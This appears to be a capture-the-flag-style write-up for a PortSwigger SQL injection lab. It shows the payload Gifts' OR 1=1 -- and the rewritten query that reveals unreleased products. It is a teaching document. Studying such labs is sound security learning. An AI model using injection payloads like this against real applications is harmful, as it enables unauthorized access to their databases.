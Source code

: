 ## Lab Description :

![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/868cf552-9200-43ad-aaad-d94298775c34)


## Solution : 

Query made - 

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

To view all the products (both released and not released) , we include **Gifts' OR 1=1 --** so that it the condition evaluates to TRUE & displayed all the gifts.

The query looks like 

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1`
```

![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/4335855c-1036-4823-bcca-8ca4a8c9a035)
